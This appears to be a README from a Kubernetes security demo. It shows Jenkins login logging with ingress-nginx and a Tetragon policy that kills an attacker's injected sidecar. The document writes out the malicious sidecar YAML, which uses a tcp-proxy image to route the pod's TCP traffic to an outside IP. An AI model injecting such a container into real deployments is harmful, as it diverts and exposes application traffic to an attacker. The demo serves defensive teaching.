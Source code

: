 # Secure Env

After noticing strange behavior on test environment, we want to secure our prod env.
Therefore, some actions have been taken by Head Of Security.

* We force all our employees to change their passwords.
* We deploy an ingress-nginx in front of jenkins to log all the logins.
* We deploy tetragon to observe the root console of K8s.
* We define a tetragon tracing policy that prevents changing haproxy files.

# Attack Again & Defend

## Jenkins Bruteforce

The attacker tries to bruteforce and login to jenkins on the test env again and this time we get the login attempts in the logs:

```bash
kubectl get pod -n ingress-nginx
kubectl logs <Ingress-Controller-Pod-Name> -f -n ingress-nginx
```

## K8s Pod TCP Traffic Routing

The attacker switches to prod env on octant and tries to inject a sidecar container in the app pod, which routes all the tcp traffic to a remote server.

>**Note**
>in order to show that, the TetragonPolicy must be deleted beforehand: ```kubectl delete TracingPolicy haproxy``` So delete it on `test` environment first, for example.

Edit the app deployment:

```bash
kubectl edit deployment/conduit-backend
```


Inject the sidecar container, directly below `containers` on column 0

```bash..
      - env:
        - name: LISTEN
          value: ":8081"
        - name: TALK
          value: "34.118.40.42:443"
        name: sidecar
        image: tecnativa/tcp-proxy
        imagePullPolicy: Always
```

The new container will not be deployed properly, since a SigKill will be sent to end that process from the tetragon policy we defined before. This can be checked using the following command:

```bash
kubectl get pod -n conduit-app
```

### TEST

### PROD
Switch to PROD via
```kubectl config use-context gke_thorsten-jakoby-tj-projekt_europe-west3_conduit-k8s-prod```


An error status will be noticed for the pods as in the following example:

```bash
conduit-backend-fdc76f894-596d6            1/2     Error              4 (51s ago)   98s
```

We get info about those trials to inject the sidecar and the SigKill action in the tetragon logs as follows:

```bash
kubectl logs -n kube-system ds/tetragon -c export-stdout -f | tetra getevents -o compact
```

You will see something like this in the logs:
![tetragon logs](./images/tetragonLogs.png "Tetragon Logs")
